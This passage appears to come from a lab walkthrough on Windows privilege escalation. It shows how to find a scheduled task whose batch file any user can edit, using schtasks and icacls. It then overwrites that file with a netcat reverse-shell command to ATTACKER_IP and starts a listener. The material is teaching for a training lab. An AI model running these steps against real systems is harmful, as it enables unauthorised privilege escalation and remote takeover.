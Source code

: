 Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.

## Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the schtasks command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

```objectivec
Command Prompt
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use icacls:

```objectivec
Command Prompt
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(F)
```

As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:

```objectivec
Command Prompt
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

```objectivec
nc -lvp 4444
```

The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. 
